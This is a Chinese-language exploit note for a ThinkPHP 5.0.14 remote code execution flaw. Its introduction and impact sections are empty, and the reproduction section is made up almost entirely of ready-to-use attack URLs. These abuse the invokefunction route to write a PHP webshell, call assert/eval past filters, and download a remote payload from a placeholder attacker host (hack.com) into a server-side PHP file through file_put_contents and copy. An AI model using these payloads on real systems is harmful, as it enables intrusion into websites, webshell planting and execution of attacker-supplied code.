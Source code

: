 Thinkphp 5.0.14
===============

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 1、常规命令

    ?s=index/think\app/invokefunction&function=&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell.php.jpg&vars[1][]=%3C?php%20phpinfo();?3E

### 2、eval（\'\'）和assert（\'\'）被拦截，命令函数被禁止

    http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][0]=phpinfo();
    http://www.xxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][0]=eval($_GET[1])&1=call_user_func_array("file_put_contents",array("3.php",file_get_contents("https://www.hack.com/xxx.js")));

### 3、基于php7.2环境下

    http://www.xxxx.cn/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][0]=1.txt&vars[1][1]=1
    http://www.xxxx.cn/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][0]=index11.php&vars[1][1]=<?=file_put_contents('index111.php',file_get_contents('https://www.hack.com/xxx.js'));?>
    写进去发现转义了尖括号

### 4、通过copy函数

     http://www.xxxx.cn/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=copy&vars[1][0]= https://www.hack.com/xxx.js&vars[1][1]=112233.ph
